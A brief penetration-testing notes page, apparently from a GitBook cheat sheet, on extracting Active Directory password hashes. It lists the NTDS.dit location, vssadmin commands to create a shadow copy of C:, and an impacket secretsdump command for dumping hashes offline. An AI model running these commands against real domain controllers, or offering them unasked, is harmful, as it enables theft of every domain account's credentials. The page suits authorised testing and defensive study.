# Getting Hashes on Servers

Servers with Active Directory installed

```bash
#Path to the file containing the AD hashes

C:\Windows\NTDS  #Directory that stores AD credentials
ntds.dit #Responsible for storing AD information

vssadmin #Utility responsible for creating a shadow copy of the volumes available in Windows

vssadmin list volumes #List all available volumes
vssadmin create shadow /for=c: # creates a shadow copy of the c:
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Dumping the hashes

```
impacket-secretdump -ntds ntds.dit -system system LOCAL
```
